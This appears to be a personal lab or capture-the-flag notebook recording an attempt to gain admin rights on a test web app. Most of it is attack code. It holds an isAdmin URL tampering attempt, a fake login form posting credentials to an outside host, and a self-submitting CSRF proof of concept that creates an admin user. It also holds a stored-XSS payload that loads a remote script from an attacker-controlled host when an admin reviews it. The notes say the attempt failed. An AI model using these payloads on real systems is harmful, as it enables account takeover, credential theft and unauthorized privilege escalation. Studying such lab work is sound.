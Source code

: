 ```bash
http://192.168.61.62/profile.php?isAdmin=true
```

Reverting going to continue later somehow need to change isADmin to true


```bash
<form action="http://192.168.49.61/login" method="GET"><div class="container"><label for="uname"><b>Username</b></label><input type="text" placeholder="Enter Username" name="uname" required><br><label for="psw"><b>Password</b></label><input type="password" placeholder="Enter Password" name="psw" required><br><button type="submit">Login</button></div></form>
```


#### CSRF
- generated `csrf` from `register page`, going to try to have the admin review this accidentally click it and create the user `hello4` where `isAdmin` = true
```bash
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://127.0.0.1:8443/api/users/create" method="POST">
      <input type="hidden" name="username" value="hello4" />
      <input type="hidden" name="password" value="hello4" />
      <input type="hidden" name="isAdmin" value="true" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
sent as payload
```bash
<script src="http://192.168.49.61:80/isadmin2.js"></script>
```
having payload being reviewed by the `admin`
- can see it being reviewed. taking a break
![[Pasted image 20250106222036.png]]
- nothing came of this admin fixed the review but the user `hello4` was never create
![[Pasted image 20250106230350.png]]